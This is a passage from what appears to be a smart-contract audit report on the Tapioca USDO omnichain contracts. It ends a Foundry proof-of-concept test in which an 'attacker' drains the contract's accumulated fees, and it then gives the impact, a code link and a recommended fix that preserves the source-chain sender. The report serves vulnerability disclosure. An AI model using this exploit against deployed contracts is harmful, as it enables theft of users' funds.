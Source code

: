 ```solidity
            Origin({sender: OFTMsgCodec.addressToBytes32(address(bUsdo)), srcEid: bEid, nonce: 0}), 
            OFTMsgCodec.addressToBytes32(address(0)), // guid (not needed for the PoC)
            abi.encodePacked( // same as _buildOFTMsgAndOptions()
                OFTMsgCodec.addressToBytes32(makeAddr("attacker")),
                tokenAmountSD
            ), // message
            address(0), // executor (not used)
            bytes("") // extra data (not used)
        );
        

        // Finished: bUSDO fees get drained, attacker obtains all the fees in the form of aUSDO
        assertEq(bUsdo.balanceOf(address(bUsdo)), 0);
        assertEq(aUsdo.balanceOf(makeAddr("attacker")), 100 ether);
          
    }
```

Run the poc with the following command: `forge test --mt testVuln_USDOBorrowFeesCanBeDrained`

The proof of concept shows how in the end, USDO’s `bUsdo` balance will become 0, while the same amount of`aUsdo` in chain A will be minted to the attacker.

## Impact

High, all fees generated by the USDO contract can be effectively stolen by the attacker

## Code Snippet

https://github.com/sherlock-audit/2024-02-tapioca/blob/main/Tapioca-bar/gitmodule/tapioca-periph/contracts/tapiocaOmnichainEngine/TapiocaOmnichainReceiver.sol#L182

## Tool used

Manual Review, foundry

## Recommendation

Ensure that the `_lzCompose()` call triggered when a `_nextMsg` exists keeps a consistent source chain sender address, instead of hardcoding it to `address(this)` :

```diff
// TapiocaOmnichainReceiver.sol

function _lzCompose(address srcChainSender_, bytes32 _guid, bytes memory oftComposeMsg_) internal {
 
        // Decode OFT compose message.
        (uint16 msgType_,,, bytes memory tapComposeMsg_, bytes memory nextMsg_) =
            TapiocaOmnichainEngineCodec.decodeToeComposeMsg(oftComposeMsg_);

        ...
   
        emit ComposeReceived(msgType_, _guid, tapComposeMsg_);
        if (nextMsg_.length > 0) {
-            _lzCompose(address(this), _guid, nextMsg_);‚
+            _lzCompose(srcChainSender_, _guid, nextMsg_);
        }
    }
```
